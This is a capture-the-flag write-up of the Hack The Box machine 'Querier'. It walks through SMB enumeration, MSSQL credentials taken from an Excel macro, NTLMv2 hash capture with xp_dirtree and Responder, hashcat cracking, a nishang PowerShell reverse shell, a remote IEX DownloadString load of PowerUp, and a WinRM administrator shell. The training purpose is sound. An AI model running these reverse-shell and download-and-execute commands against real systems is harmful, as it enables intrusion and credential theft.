


---
search:
  exclude: true
---
# Querier Writeup

## Introduction :

Querier is a Medium windows box released back in Febuary 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/10 ] [~]
    → sudo nmap -vvv -sTU -p- 10.10.10.125 --max-retries 0 -Pn --min-rate=1000 | grep Discovered
    [sudo] password for nihilist:
    Discovered open port 445/tcp on 10.10.10.125
    Discovered open port 135/tcp on 10.10.10.125
    Discovered open port 139/tcp on 10.10.10.125
    Discovered open port 49664/tcp on 10.10.10.125
    Discovered open port 49665/tcp on 10.10.10.125
    Discovered open port 49668/tcp on 10.10.10.125
    Discovered open port 49670/tcp on 10.10.10.125
    Discovered open port 5985/tcp on 10.10.10.125
    Discovered open port 49667/tcp on 10.10.10.125
    Discovered open port 47001/tcp on 10.10.10.125
    Discovered open port 49666/tcp on 10.10.10.125
    Discovered open port 1433/tcp on 10.10.10.125
    [ 10.10.14.42/23 ] [ /dev/pts/10 ] [~]
    
    → nmap -sCV -p445,135,139,5985,1433 10.10.10.125
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-05 10:47 BST
    Nmap scan report for 10.10.10.125
    Host is up (0.045s latency).
    
    PORT     STATE SERVICE       VERSION
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
    | ms-sql-ntlm-info:
    |   Target_Name: HTB
    |   NetBIOS_Domain_Name: HTB
    |   NetBIOS_Computer_Name: QUERIER
    |   DNS_Domain_Name: HTB.LOCAL
    |   DNS_Computer_Name: QUERIER.HTB.LOCAL
    |   DNS_Tree_Name: HTB.LOCAL
    |_  Product_Version: 10.0.17763
    | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
    | Not valid before: 2020-04-04T19:54:28
    |_Not valid after:  2050-04-04T19:54:28
    |_ssl-date: 2020-04-05T08:48:17+00:00; -59m27s from scanner time.
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: -59m27s, deviation: 0s, median: -59m28s
    | ms-sql-info:
    |   10.10.10.125:1433:
    |     Version:
    |       name: Microsoft SQL Server 2017 RTM
    |       number: 14.00.1000.00
    |       Product: Microsoft SQL Server 2017
    |       Service pack level: RTM
    |       Post-SP patches applied: false
    |_    TCP port: 1433
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2020-04-05T08:48:13
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 18.07 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up the smb service running, so let's enumerate it using smbmap:
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~]
    → smbmap -u invalid -H 10.10.10.125
    [!] Authentication error on 10.10.10.125
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~]
    → smbmap -u invalid -H 10.10.10.125
    [+] Guest session       IP: 10.10.10.125:445    Name: 10.10.10.125
           Disk                                                    Permissions     Comment
           ----                                                    -----------     -------
           ADMIN$                                                  NO ACCESS       Remote Admin
           C$                                                      NO ACCESS       Default share
           IPC$                                                    READ ONLY       Remote IPC
           Reports                                                 READ ONLY
    

So here we see that there is a Reports share that is READ ONLY, which our user can access, so let's login via smbclient:
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~]
    → sudo smbclient -U QUERIER/invalid //10.10.10.125/Reports
    [sudo] password for nihilist:
    do_connect: Connection to 10.10.10.125 failed (Error NT_STATUS_IO_TIMEOUT)
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~]
    → sudo smbclient -U QUERIER/invalid //10.10.10.125/Reports
    Enter QUERIER\invalid's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Mon Jan 28 23:23:48 2019
    ..                                  D        0  Mon Jan 28 23:23:48 2019
    Currency Volume Report.xlsm         A    12229  Sun Jan 27 22:21:34 2019
    
    6469119 blocks of size 4096. 1597460 blocks available
    smb: \> get Currency Volume Report.xlsm
    NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \Currency
    smb: \> get "Currency Volume Report.xlsm"
    getting file \Currency Volume Report.xlsm of size 12229 as Currency Volume Report.xlsm (15.5 KiloBytes/sec) (average 15.5 KiloBytes/sec)
    smb: \> exit
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~]
    → mkdir _HTB/Querier && mv Currency\ Volume\ Report.xlsm _HTB/Querier
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~]
    → cd _HTB/Querier && file "Currency Volume Report.xlsm"
    Currency Volume Report.xlsm: Microsoft Excel 2007+
    
    

Here as we can see, the smb service was a bit unstable but after spamming it we ended up being able to login and getting a MS Excel 2007 file which is basically a zip compressed file. we can see the contents of that macro file without using libreoffice as you can see below:
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
    → unzip Currency\ Volume\ Report.xlsm
    Archive:  Currency Volume Report.xlsm
      inflating: [Content_Types].xml
      inflating: _rels/.rels
      inflating: xl/workbook.xml
      inflating: xl/_rels/workbook.xml.rels
      inflating: xl/worksheets/sheet1.xml
      inflating: xl/theme/theme1.xml
      inflating: xl/styles.xml
      inflating: xl/vbaProject.bin
      inflating: docProps/core.xml
      inflating: docProps/app.xml
    

From here we needed to each file until we checking xl/vbaProject.bin:
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
    → cd xl
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [_HTB/Querier/xl]
    → strings vbaProject.bin
     macro to pull data for client volume reports
     n.Conn]
     Open
     rver=<
               SELECT * FROM volume;
               word>
                MsgBox "connection successful"
                Set rs = conn.Execute("SELECT * @@version;")
                Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6
                 further testing required
                 Attribut
                 e VB_Nam
                 e = "Thi
    

So from here we know that the vbaProject.bin has an username and a password required for the MSSQL server hardcoded within the macro (reporting:PcwTWTHRwryjc$c6) so from there we can connect to the mssql server using impacket's mssqlclient.py:
    
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [_HTB/Querier/xl]
    → locate mssqlclient.py
    /usr/share/doc/python3-impacket/examples/mssqlclient.py
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [_HTB/Querier/xl]
    → cd .. && cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
    → python mssqlclient.py -windows-auth querier/reporting@10.10.10.125
    Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
    
    Password:
    [*] Encryption required, switching to TLS
    [-] ERROR(QUERIER): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.
    
    
    

So from here we basically need to add the correct domain name to our /etc/hosts file:
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
    → echo '10.10.10.125 querier.htb' >> /etc/hosts
    

And only then use mssqlclient.py: 
    
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
    → python3 mssqlclient.py -windows-auth querier/reporting@querier.htb
    Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
    
    Password:
    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
    [*] INFO(QUERIER): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
    [!] Press help for extra shell commands
    SQL> xp_cmdshell "whoami";
    [-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
    SQL> EXEC sp_configure 'show advanced options', 1;
    [-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
    SQL> RECONFIGURE;
    [-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
    

Once we are logged in as the user reporting on the MSSQL server, we don't have enough privileges to use xp_cmdshell or sp_configure, however we are able to trigger an SMB connection back to us with xp_dirtree in order to steal the NTLMv2 hash from the server thanks to responder:

_Terminal 1:_
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/8 ] [~]
    → responder -I tun0
    
    

` _Terminal 2:_
    
    
    SQL> EXEC master.dbo.xp_dirtree '\\10.10.14.42\nihilist';
    SQL>
    
    

` 

Once we have the NTLMv2 hash we give it to hashcat for it to bruteforce with the rockyou.txt wordlist: 
    
    
    [ 10.10.14.42/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
    → hashcat -m 5600 ntlm /usr/share/wordlists/rockyou.txt --bruteforce
    
    

Let it run and we get the mssql-svc's password **corporate568** which we can use to log into the mssql service with more privileges :
    
    
    mssql-svc:corporate568
    
    

With these we have alot more privileges on the database: 
    
    
      [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~/_HTB]
      → locate mssqlclient.py
      /usr/share/doc/python3-impacket/examples/mssqlclient.py
    
      [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~/_HTB]
      → cd Querier
    
      [ 10.10.14.6/23 ] [ /dev/pts/2 ] [~/_HTB/Querier]
      → cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
    

We could use that mssqlclient.py script or we could use [ alamot's](https://alamot.github.io/mssql_shell/) python script Or even we'll use [Tsuki CTF's](https://www.youtube.com/watch?v=M9SAV-4HjzQ) way which consists in using sqsh: 
    
    
      [ 10.10.14.6/23 ] [ /dev/pts/4 ] [~/_HTB/Querier]
      → sqsh -S 10.10.10.125 -U 'QUERIER\mssql-svc' -P 'corporate568'
      sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
      Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
      This is free software with ABSOLUTELY NO WARRANTY
      For more information type '\warranty'
      1>
    

And we are logged in ! now for this next part we'll use [nishang's Invoke-PowershellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) and PowerSploit's PowerUp.ps1: 
    
    
      [ 10.10.14.6/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
      → wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
      --2020-04-14 20:22:31--  https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
      Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.120.133
      Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.120.133|:443... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 4339 (4.2K) [text/plain]
      Saving to: ‘Invoke-PowerShellTcp.ps1’
    
      Invoke-PowerShellTcp.ps1   100%[=====================================>]   4.24K  --.-KB/s    in 0s
    
      2020-04-14 20:22:31 (10.6 MB/s) - ‘Invoke-PowerShellTcp.ps1’ saved [4339/4339]
    
    
      [ 10.10.14.6/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
      → wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
      --2020-04-14 20:24:35--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
      Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.120.133
      Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.120.133|:443... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 562841 (550K) [text/plain]
      Saving to: ‘PowerUp.ps1’
    
      PowerUp.ps1                100%[=====================================>] 549.65K  1.91MB/s    in 0.3s
    
      2020-04-14 20:24:36 (1.91 MB/s) - ‘PowerUp.ps1’ saved [562841/562841]
    
    
      [ 10.10.14.6/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
      → echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 9001' >> Invoke-PowerShellTcp.ps1
    
      [ 10.10.14.6/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
      → mv Invoke-PowerShellTcp.ps1 rev.ps1
    
      [ 10.10.14.6/23 ] [ /dev/pts/6 ] [~/_HTB/Querier]
      → python3 -m http.server 80
    
    

Once we have them both, we setup our simplehttpserver (which is http.server in python3) and from the mssql shell we have we can trigger our reverse shell and catch the incoming connection on our port 9001 using netcat:

    
    
      [ 10.10.14.6/23 ] [ /dev/pts/8 ] [~/_HTB/Querier]
      → nc -lvnp 9001
      listening on [any] 9001 ...
      connect to [10.10.14.6] from (UNKNOWN) [10.10.10.125] 49676
      Windows PowerShell running as user mssql-svc on QUERIER
      Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
      PS C:\Windows\system32>cd C:\
      PS C:\> ls
    
    
          Directory: C:\
    
    
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      d-----        9/15/2018   8:19 AM                PerfLogs
      d-r---        1/28/2019  11:55 PM                Program Files
      d-----        1/29/2019  12:02 AM                Program Files (x86)
      d-----        1/28/2019  11:23 PM                Reports
      d-r---        1/28/2019  11:41 PM                Users
      d-----        1/28/2019  11:10 PM                Windows
    
    
      PS C:\> cd Users
      PS C:\Users> ls
    
    
          Directory: C:\Users
    
    
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      d-----        1/28/2019  10:17 PM                Administrator
      d-----        1/28/2019  11:42 PM                mssql-svc
      d-r---        1/28/2019  10:17 PM                Public
    
    
      PS C:\Users> cd mssql-svc
      PS C:\Users\mssql-svc> ls
    
    
          Directory: C:\Users\mssql-svc
    
    
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      d-r---        1/28/2019  11:42 PM                3D Objects
      d-r---        1/28/2019  11:42 PM                Contacts
      d-r---        1/28/2019  11:42 PM                Desktop
      d-r---        1/28/2019  11:42 PM                Documents
      d-r---        1/28/2019  11:42 PM                Downloads
      d-r---        1/28/2019  11:42 PM                Favorites
      d-r---        1/28/2019  11:42 PM                Links
      d-r---        1/28/2019  11:42 PM                Music
      d-r---        1/28/2019  11:42 PM                Pictures
      d-r---        1/28/2019  11:42 PM                Saved Games
      d-r---        1/28/2019  11:42 PM                Searches
      d-r---        1/28/2019  11:42 PM                Videos
    
    
      PS C:\Users\mssql-svc> cd Desktop
      PS C:\Users\mssql-svc\Desktop> cat user.txt
      c3XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now from there we'll upload our PowerUp.ps1 to enumerate the box from inside powershell: 
    
    
      PS C:\Users\mssql-svc\Desktop> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.6/PowerUp.ps1'); Invoke-AllChecks
      [*] Running Invoke-AllChecks
      [*] Checking if user is in a local group with administrative privileges...
      [*] Checking for unquoted service paths...
      [*] Checking service executable and argument permissions...
      [*] Checking service permissions...
      ServiceName   : UsoSvc
      Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
      StartName     : LocalSystem
      AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
      CanRestart    : True
    
      [*] Checking %PATH% for potentially hijackable DLL locations...
      ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
      IdentityReference : QUERIER\mssql-svc
      Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
      %PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
      AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
    
      [*] Checking for AlwaysInstallElevated registry key...
      [*] Checking for Autologon credentials in registry...
      [*] Checking for modifidable registry autoruns and configs...
      [*] Checking for modifiable schtask files/configs...
      [*] Checking for unattended install files...
      UnattendPath : C:\Windows\Panther\Unattend.xml
    
      [*] Checking for encrypted web.config strings...
      [*] Checking for encrypted application pool and virtual directory passwords...
      [*] Checking for plaintext passwords in McAfee SiteList.xml files....
      [*] Checking for cached Group Policy Preferences .xml files....
      Changed   : {2019-01-28 23:12:48}
      UserNames : {Administrator}
      NewName   : [BLANK]
      Passwords : {**MyUnclesAreMarioAndLuigi!!1!**}
      File      : C:\ProgramData\Microsoft\Group
                  Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    
      PS C:\Users\mssql-svc\Desktop> Get-ChildItem : Access to the path 'C:\ProgramData\VMware\VMware Tools\GuestProxyData\trusted' is denied.
      At line:3704 char:21
      + ... $XMlFiles = Get-ChildItem -Path $AllUsers -Recurse -Include 'Groups.x ...
      +                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
          + CategoryInfo          : PermissionDenied: (C:\ProgramData\...oxyData\trusted:String) [Get-ChildItem], Unauthoriz
         edAccessException
          + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
    
    

And it revealed us the Administrator password which is "MyUnclesAreMarioAndLuigi!!1!" so we use it to privesc via port 445 (microsoft-ds) that our nmap scan picked up earlier, we'll use psexec.py for that part:
    
    
      [ 10.10.14.6/23 ] [ /dev/pts/8 ] [~/_HTB/Querier]
      → locate psexec.py
      /usr/share/doc/python3-impacket/examples/psexec.py
      /usr/share/set/src/fasttrack/psexec.py
    
      [ 10.10.14.6/23 ] [ /dev/pts/8 ] [~/_HTB/Querier]
      → cp /usr/share/doc/python3-impacket/examples/psexec.py .
    
      [ 10.10.14.6/23 ] [ /dev/pts/8 ] [~/_HTB/Querier]
      → python3 psexec.py
    
    

We could use psexec.py but for this part we'll use snowscan's script which is a WinRM script that was made originally by alamot: 
    
    
      [ 10.10.14.6/23 ] [ /dev/pts/8 ] [~/_HTB/Querier]
      → nano snowscan_is_awesome.rb
    
    
    
      require 'winrm'
    
      # Author: Alamot
    
      conn = WinRM::Connection.new(
        endpoint: 'http://10.10.10.125:5985/wsman',
        user: 'querier\administrator',
        password: 'MyUnclesAreMarioAndLuigi!!1!',
      )
    
      command=""
    
      conn.shell(:powershell) do |shell|
          until command == "exit\n" do
              output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
              print(output.output.chomp)
              command = gets
              output = shell.run(command) do |stdout, stderr|
                  STDOUT.print stdout
                  STDERR.print stderr
              end
          end
          puts "Exiting with code #{output.exitcode}"
      end
    
    
    
    
      [ 10.10.14.6/23 ] [ /dev/pts/8 ] [~/_HTB/Querier]
      → ruby querier.rb
      PS querier\administrator@QUERIER Documents> whoami
      querier\administrator
      PS querier\administrator@QUERIER Documents> type c:\users\administrator\desktop\root.txt
      b1XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

